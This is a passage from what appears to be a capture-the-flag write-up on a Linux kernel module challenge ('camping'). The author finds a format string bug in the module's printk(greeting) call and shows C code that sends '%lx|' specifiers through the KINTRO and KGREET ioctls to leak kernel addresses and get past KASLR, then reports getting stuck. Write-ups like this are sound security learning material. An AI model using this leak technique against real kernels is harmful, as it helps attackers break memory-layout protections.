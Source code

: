 ```c
    printk(KERN_INFO "camping: Enjoy your camping experience!\n");
    return 0;
}
```

there are two function that I'm not familiar with here, first is `access_ok()`

{% embed url="https://www.cs.bham.ac.uk/~exr/lectures/opsys/13_14/docs/kernelAPI/r3676.html" %}

> access\_ok -- Checks if a user space pointer is valid

which means the `location` field has to be an address within the user space.

second is `isalnum()` but I decided to take it for granted for its self explanatory name.

### Exploitation

the first thing I take attention of is KASLR, one thing I took notice is `printk(greeting);` in KGREET which seems to be a format string vulnerability. so I took it to the test

```c
int main(int argc, char *argv[]){
    setvbuf(stdout, NULL, _IONBF, 0);

    fd = open("/dev/camping", O_RDWR);
    if (fd < 0){
        perror("[-] open");
        return 1;
    }
    printf("[+] Device opened successfully, fd: %d\n", fd);

    for(int i = 0x0; i < BUFFER_SIZE/4; i++) {
        strcat(payload.name, "%lx|");
    }

    if (ioctl(fd, KINTRO, &payload) != 0){
        perror("[-] ioctl KINTRO");
        return 1;
    }

    if (ioctl(fd, KGREET, NULL) != 0) {
        perror("[-] ioctl KGREET");
        return 1;
    }

    return 0;
}
```

However, even though I kinda already grasp the overall challenge and how to exploit it, this is ultimately where I got stuck because the address leak that we got from is somehow cropped

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>
